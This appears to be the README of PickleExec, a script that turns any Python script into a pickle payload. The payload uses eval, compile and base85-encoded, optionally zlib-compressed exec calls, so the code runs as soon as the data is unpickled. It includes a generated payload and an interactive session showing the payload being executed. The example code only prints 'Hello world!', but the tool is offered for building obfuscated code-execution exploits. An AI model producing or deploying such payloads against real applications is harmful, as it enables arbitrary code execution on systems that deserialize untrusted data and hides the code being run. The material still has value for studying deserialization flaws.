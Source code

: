 # PickleExec-python script for generating an exploit to run python code in pickle

## Usage:

Script to run in pickle:
```py
#HelloWorld.py
print('Hello world!')
```

Generate exploit:
```
Python script filename>HelloWorld.py
b'c__builtin__\neval\n(c__builtin__\ncompile\n(Vimport base64;exec(base64.b85decode("aB^vGbSNiCWo&G3Aa`$aY-AxPDGC").decode())\nV-\nVexec\ntRtR.'
```

Executing:
```py
Python 3.9.1 (default, Dec 13 2020, 11:55:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pickle import loads
>>> loads(b'c__builtin__\neval\n(c__builtin__\ncompile\n(Vfrom base64 import b85decode;from zlib import decompress;exec(decompress(b85decode("c$_OJ%FHX#Q1?j9$;nqJ&o9bJQB>FD0svc+2Q&")).decode())\nV-\nVexec\ntRtR.')
Hello world!
>>>
```
